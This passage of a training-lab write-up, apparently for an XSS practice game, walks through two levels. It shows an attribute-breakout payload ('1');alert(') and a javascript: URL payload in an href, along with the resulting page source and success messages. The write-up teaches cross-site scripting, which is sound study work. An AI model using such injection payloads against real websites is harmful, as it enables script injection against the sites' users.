 ```html
```
To escape the it we can use this payload:
```html
1');alert(')
```
Where the source ends up looking like this:
```html
...SNIP..
    <img src="/static/loading.gif" onload="startTimer('1&#39;);alert(&#39;)');"/>
    <br>
    <div id="message">Your timer will execute in 1&#39;);alert(&#39;) seconds.
...SNIP...
```
And we get this:
```txt
Congratulations, you executed an alert:
)
You can now advance to the next level.
```
# 5 - Breaking Protocol
## Mission Description
Cross-site scripting isn't _just_ about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.
## Mission Objective
* Inject a script to pop up an `alert()` in the context of the application.
## Practical
This is our target site:
![[Pasted image 20250107175947.png]]
When we go to sign up, and check the source code, we can see a `href` attribute and how it changes when we modify the URL:
```html
<!--- If we change the url from 
..SNIP.../level5/frame/signup?next=confirm
TO
..SNIP.../level5/frame/signup?next=a
The source code looks like this
--->
...SNIP...
<!-- We're ignoring the email, but the poor user will never know! -->
Enter email: <input id="reader-email" name="email" value="">
<br>
<br>
<a href="a">Next >>
</a>
  </body>
</html>
```
So now if we modify the URL into the payload below, we should get an XSS if we press the `Next` button:
```html
javascript:alert(1)
```
And we get this:
```txt
Congratulations, you executed an alert:
1
You can now advance to the next level.
```